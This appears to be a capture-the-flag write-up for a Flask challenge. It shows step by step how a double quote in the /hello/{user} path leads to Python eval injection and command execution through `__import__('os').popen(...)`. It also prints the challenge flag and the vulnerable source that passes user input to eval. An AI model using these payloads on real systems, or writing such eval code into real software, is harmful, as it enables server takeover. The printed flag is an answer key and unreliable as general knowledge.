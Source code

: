 # Streamlining portal

Hi, packet inspector,

the AI is preparing some kind of employee streamlining portal on http://user-info.mysterious-delivery.tcc. We fear this
will lead to more lost packages.

Your task is to break into the web and find interesting information on the server.

May the Packet be with you!

---

The portal is really simple

![](portal.png)

There is one path parameter (`/hello/{user}`) which is reflected back.

Inspecting HTTP response headers reveals that the server is using [Gunicorn](https://gunicorn.org/) which is a  **
Python** WSGI HTTP Server.

I started to fuzz the `/hello/{user}`. Sending `/hello/AAA"` provokes HTTP 500.
All other non-standard characters including `'` are handled correctly.

The next idea was to find a payload which would somehow got evaluated. Given this is Python, I tried to close the
quotes myself and comment out the rest of the original code:

```
hello/AAA"#
```

It works, `AAA` is returned. Great!

Let's take it one step further:

```
hello/AAA"+"B"*3#

> Hello AAABBB
```

Go for command execution:

```
/hello/"+__import__('os').popen('id').read()#

> Hello uid=1000(challengeuser) gid=1000(challengeuser) groups=1000(challengeuser)
```

Now we need to find the flag. Using `ls` we can find the flag in `/app/FLAG`.

Finally, read the flag:

```
/hello/"+__import__('os').popen('cat /app/FLAG/flag.txt').read()#

> Hello FLAG{OONU-Pm7V-BK3s-YftK}
```

---

## Bonus: Reading the source code

Read `/app/app.py`:

```python
from flask import Flask, Blueprint, redirect, render_template

bp = Blueprint("app", __name__)


def create_app():
    app = Flask(__name__)
    app.register_blueprint(bp, url_prefix="/")
    return app


@bp.route('/hello/<path:userstring>')
def hello(userstring):
    message = eval('"Hello ' + userstring + '"')
    return render_template('index.html', message=message)


@bp.route('/')
def redirect_to_user():
    return redirect("/hello/user", code=302)
```